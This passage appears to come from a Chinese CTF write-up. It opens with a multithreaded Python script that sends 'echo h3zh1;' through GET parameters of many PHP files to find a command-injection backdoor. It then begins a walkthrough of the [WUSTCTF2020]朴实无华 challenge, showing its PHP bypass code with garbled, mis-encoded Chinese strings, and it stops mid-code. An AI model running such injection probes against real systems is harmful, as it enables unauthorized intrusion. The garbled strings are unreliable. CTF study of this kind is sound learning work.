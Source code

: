 ```python


def run(fileName):
    with sem:
        file = open(path + fileName, 'r', encoding='utf-8')
        content = file.read()
        print("[+]checking:%s" % fileName)
        # 测试get的参数
        for i in rrGET.findall(content):
            r = session.get(url + "%s?%s=%s" % (fileName, i, "echo 'h3zh1';"))
            print(url + "%s?%s=%s" % (fileName, i, "echo h3zh1;"))
            if "h3zh1" in r.text:
                flag = "You Find it in GET fileName = %s and param = %s \n" % (fileName, i)
                print(flag)
                local_file.write(flag)
                exit(0)
        # return
    # 测试post的参数
    # for i in rrPOST.findall(content):
    #     r = session.post( url + fileName , data = { i : "echo h3zh1;" } )
    #     if "h3zh1" in r.text:
    #         flag = "You Find it in POST: fileName = %s and param = %s \n" % ( fileName, i )
    #         print(flag)
    #         local_file.writelines(flag)

if __name__ == '__main__':
    start_time = time.time()  # 开始时间
    print("[start]程序开始:" + str(start_time))
    thread_list = []
    for fileName in fileNames:
        t = threading.Thread(target=run, args=(fileName,))
        thread_list.append(t)
    for t in thread_list:
        t.start()
    for t in thread_list:
        t.join()
    end_time = time.time()
    local_file.close()  # 关文件
    print("[end]程序结束:用时:" + str(end_time - start_time))

```



### [WUSTCTF2020]朴实无华



打开网站，`hack me`和报错信息，手动扫后台发现**robots.txt**
进入**/fAke_f1agggg.php**，在文件头发现**fl4g.php**
访问**fl4g.php**，就可以发现就是一个php各种绕过

```php
<?php
header('Content-type:text/html;charset=utf-8');
error_reporting(0);
highlight_file(__file__);


//level 1
if (isset($_GET['num'])){
    $num = $_GET['num'];
    if(intval($num) < 2020 && intval($num + 1) > 2021){
        echo "鎴戜笉缁忔剰闂寸湅浜嗙湅鎴戠殑鍔冲姏澹�, 涓嶆槸鎯崇湅鏃堕棿, 鍙槸鎯充笉缁忔剰闂�, 璁╀綘鐭ラ亾鎴戣繃寰楁瘮浣犲ソ.</br>";
    }else{
        die("閲戦挶瑙ｅ喅涓嶄簡绌蜂汉鐨勬湰璐ㄩ棶棰�");
```